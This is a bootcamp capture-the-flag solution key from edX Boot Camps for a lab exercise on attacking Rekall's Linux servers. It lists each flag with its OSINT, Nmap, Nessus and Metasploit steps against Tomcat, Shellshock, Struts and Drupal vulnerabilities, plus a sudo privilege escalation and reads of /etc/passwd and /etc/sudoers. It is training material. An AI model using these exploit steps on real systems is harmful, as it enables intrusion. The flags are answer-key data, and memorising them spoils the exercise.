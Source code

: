 ## Day 2 Solution File: Attacking Rekall's Linux Servers

### Flag Solutions

#### Flag 1: h8s692hskasd
- **Location:** https://centralops.net/co/DomainDossier.aspx
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On the Domain Dossier webpage, view the WHOIS data for totalrekall.xyz. The address will show the flag:
  - `Registrant Street: h8s692hskasd Flag1`

#### Flag 2: 7sk67cjsdbs
- **Method/Payload to Exploit:**
  - `nslookup -type=txt totalrekall.xyz`
 
#### Flag 3: s7euwehd
- **Location:** `crt.sh`
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On `crt.sh`, search for totalrekall.xyz to view the flag:
   - **s7euwehd**.totalrekall.xyz

#### Flag 4: 5
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an Nmap scan for the network (`nmap 192.168.13.0/24`) to determine that there are 5 hosts excluding the host scanning from.

#### Flag 5: 192.168.13.13
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an aggressive Nmap scan: `nmap -A 192.168.13.0/24` 
    -  Analyze the results to see that the host that runs Drupal is 192.168.13.13


#### Flag 6: 97610
- **Location:** Nessus scan results
- **Method/Payload to Exploit:** 
  - Run a Nessus scan for 192.168.13.12
  - One critical vulnerability will appear for Apache Struts. 
  - Click on this critical vulnerability. The id 97610 will display on the top right of this page.

#### Flag 7: 8ks6sbhss
- **Location/Host:** 192.168.13.10
- **Vulnerability:** Apache Tomcat Remote Code Execution Vulnerability (CVE-2017-12617)
- **Method/Payload to Exploit:**  
  - Run MSFconsole.
  - Search for exploits that have Tomcat and JSP.
  - Use the exploit `multi/http/tomcat_jsp_upload_bypass`, and set the option for the RHOST to 192.168.13.10. 
  - After successfully getting a Meterpreter shell, enter "SHELL" to get to the command line.
  - Run the following to get the flag:  `/ cat /root/.flag7.txt`

#### Flag 8: 9dnx5shdf5
- **Location:** 192.168.13.11
- **Vulnerability:** Shellshock
- **Method/Payload to Exploit:**  
  - Run MSFconsole, and search exploits that have Shellshock. 
  - Run MSF (`exploit/multi/http/apache_mod_cgi_bash_env_exec`) and set the following options:   
    - target URI(The vulnerable webpage): /cgi-bin/shockme.cgi
    - RHOST: 192.168.13.11
- To get the flag, run the following from a shell on the exploited machine: `cat /etc/sudoers`

#### Flag 9: wudks8f7sd
- **Location:** 192.168.13.11
- **Method/Payload to Exploit:** On the same machine as Flag 8, run `cat /etc/passwd`


#### Flag 10: wjasdufsdkg
- **Location:** 192.168.13.12
- **Vulnerability:** Struts - CVE-2017-5638
- **Method/Payload to Exploit:**  Determine via the Nessus scan that this host is vulnerable to Struts.
  - After connecting to MSFconsole, search for Struts exploits.
  - Use the following exploit to get a Meterpreter shell: `multi/http/struts2_content_type_ognl`.
      - Set the RHOSTS to 192.168.13.12
  - You may have to manually connect to the session to get the meterpreter shell with: `sessions -i <session number>`
  - Use Meterpreter to download the following file to your Kali machine: `/root/flagisinThisfile.7z`
  - From your Kali machine, unzip the file with the following command: `7z x flagisinThisfile.7z` 
  - Use `cat` with the flag file to view the flag.

#### Flag 11: www-data
- **Location:** 192.168.13.13
- **Vulnerability:** Drupal - CVE-2019-6340
- **Method/Payload to Exploit:** 
  - After connecting to MSFconsole, search for Drupal exploits.
  - Use the following exploit to get a Meterpreter shell MSF: `unix/webapp/drupal_restws_unserialize`
       - Set RHOSTS to 192.168.13.13
  - After getting the Meterpreter shell, run `getuid` to get the username.

#### Flag 12: d7sdfksdf384
- **Location:** 192.168.13.14
- **Vulnerability:** CVE-2019-14287
- **Method/Payload to Exploit:**  
   - When viewing the WHOIS data from Flag 1, notice that the name is: `sshuser Alice`
   - SSH into the server: `ssh alice@192.168.13.14`
   - Guess that the password is: `alice`
   - To conduct the privilege escalation exploit and obtain the flag, run the following: 
       - `sudo -u#-1 cat /root/flag12.txt`

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.   
